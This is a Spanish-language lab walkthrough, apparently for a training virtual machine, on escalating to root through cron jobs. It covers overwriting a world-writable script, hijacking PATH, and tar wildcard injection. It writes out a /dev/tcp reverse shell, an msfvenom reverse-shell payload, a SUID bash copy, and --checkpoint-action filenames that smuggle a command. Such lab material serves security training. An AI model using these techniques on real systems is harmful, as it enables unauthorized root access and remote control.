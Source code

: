 # Cron Job

Cron  ejecuta automáticamente comandos o scripts (grupos de comandos) a una hora o fecha específica.

## File Permissions

Las tareas cron son programas o scripts que los usuarios pueden programar para que se ejecuten en momentos o intervalos específicos. Los archivos de tabla cron (crontabs) almacenan la configuración para las tareas cron. La tabla cron del sistema se encuentra en /etc/crontab. Ver el contenido de la tabla cron del sistema:

```
cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh


```

Debería haber dos tareas cron programadas para ejecutarse cada minuto. Una ejecuta overwrite.sh, la otra ejecuta /usr/local/bin/compress.sh. Localiza la ruta completa del archivo overwrite.sh:

```
locate overwrite.sh
```

Nota que el archivo tiene permisos de escritura para todos:

```
ls -l /usr/local/bin/overwrite.sh
```

Reemplaza el contenido del archivo overwrite.sh con el siguiente después de cambiar la dirección IP por la de tu máquina Kali.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Configura un escucha netcat en tu máquina Kali en el puerto 4444 y espera a que se ejecute la tarea cron (no debería tomar más de un minuto). Un shell de root debería conectarse de vuelta a tu escucha netcat. Si no lo hace, verifica los permisos del archivo, ¿hay algo que falte?

```
nc -nvlp 4444
```

¡Recuerda salir del shell de root y eliminar el código de shell inverso antes de continuar!

## PATH Environment Variables



Visualiza el contenido de la tabla cron del sistema:

```
cat /etc/crontab
```

Nota que la variable PATH comienza con /home/user, que es el directorio principal de nuestro usuario.

Crea un archivo llamado overwrite.sh en tu directorio principal con el siguiente contenido:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Asegúrate de que el archivo sea ejecutable:

```
chmod +x /home/user/overwrite.sh
```

Espera a que se ejecute la tarea cron (no debería tardar más de un minuto). Ejecuta el comando /tmp/rootbash con -p para obtener un shell que se ejecute con privilegios de root:

```
/tmp/rootbash -p
```

Recuerda eliminar el código modificado, eliminar el ejecutable /tmp/rootbash y salir del shell elevado antes de continuar, ya que crearás este archivo nuevamente más adelante en la tarea.

```
rm /tmp/rootbash
exit
```

## Wildcards

Visualiza el contenido del otro script de tarea cron:

```
cat /usr/local/bin/compress.sh
```

Observa que el comando tar se está ejecutando con un comodín (\*) en tu directorio principal.

Consulta la página GTFOBins para tar. Observa que tar tiene opciones de línea de comandos que te permiten ejecutar otros comandos como parte de una función de punto de control.

Usa msfvenom en tu máquina Kali para generar un binario ELF de shell inversa. Actualiza la dirección IP LHOST en consecuencia:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

Transfiere el archivo shell.elf a /home/user/ en la máquina virtual Debian (puedes usar scp o alojar el archivo en un servidor web en tu máquina Kali y usar wget). Asegúrate de que el archivo sea ejecutable:

```
chmod +x /home/user/shell.elf
```

Crea estos dos archivos en /home/user:

```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

Cuando se ejecute el comando tar en la tarea cron, el comodín (\*) se expandirá para incluir estos archivos. Dado que los nombres de archivo son opciones de línea de comandos válidas para tar, tar los reconocerá como tales y los tratará como opciones de línea de comandos en lugar de nombres de archivo.

Configura un oyente de netcat en tu máquina Kali en el puerto 4444 y espera a que se ejecute la tarea cron (no debería tardar más de un minuto). Un shell de root debería conectarse de vuelta a tu oyente de netcat.

```
nc -nvlp 4444
```

Recuerda salir del shell de root y eliminar todos los archivos que creaste para evitar que la tarea cron se ejecute nuevamente:

```
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```
